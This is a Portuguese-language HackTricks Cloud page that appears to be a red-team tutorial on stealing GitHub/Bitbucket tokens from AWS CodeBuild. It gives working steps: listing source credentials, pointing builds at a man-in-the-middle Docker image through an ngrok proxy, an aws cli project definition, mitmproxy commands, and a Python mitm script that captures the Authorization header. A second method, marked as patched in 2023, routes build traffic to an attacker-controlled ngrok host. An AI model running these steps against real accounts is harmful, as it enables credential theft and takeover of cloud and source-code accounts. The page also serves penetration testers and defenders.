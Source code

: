 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Recuperar Tokens Configurados do Github/Bitbucket

Primeiro, verifique se há credenciais de origem configuradas que você poderia leak:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se você descobrir que a autenticação para, por exemplo, Github está configurada na conta, você pode **exfiltrar** esse **acesso** (**token GH ou token OAuth**) fazendo com que o Codebuild **use uma imagem Docker específica** para executar a construção do projeto.

Para isso, você poderia **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **imagem Docker**.

A imagem Docker que você poderia usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que irá definir as **variáveis de ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Isso permitirá que você intercepte a maior parte do tráfego do host indicado em **`https_proxy`** e **`http_proxy`**, confiando no SSL CERT indicado em **`SSL_CERT_FILE`**.

1. **Crie e faça upload da sua própria imagem Docker MitM**
* Siga as instruções do repositório para definir o endereço IP do seu proxy e configurar seu certificado SSL e **construa a imagem docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações ao endpoint de metadados.
* Você poderia usar **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host.
* Uma vez que você tenha a imagem Docker construída, **faça upload para um repositório público** (Dockerhub, ECR...)
2. **Defina o ambiente**
* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
* Defina o projeto para usar a **imagem Docker gerada anteriormente**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Defina o proxy MitM no seu host**

* Como indicado no **repositório Github**, você poderia usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
A **versão do mitmproxy utilizada foi 9.0.1**, foi relatado que com a versão 10 isso pode não funcionar.
{% endhint %}

4. **Execute a construção e capture as credenciais**

*   Você pode ver o token no cabeçalho **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Isso também pode ser feito a partir do aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Essa vulnerabilidade foi corrigida pela AWS em algum momento da semana do dia 20 de fevereiro de 2023 (acho que na sexta-feira). Portanto, um atacante não pode mais abusar disso :)**
{% endhint %}

Um atacante com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões foram configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um atacante poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Em seguida, mudar a URL do repositório do github para usar HTTP em vez de HTTPS, por exemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Em seguida, executar o exemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta apontada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante poderá usar o token de sua máquina, listar todos os privilégios que possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
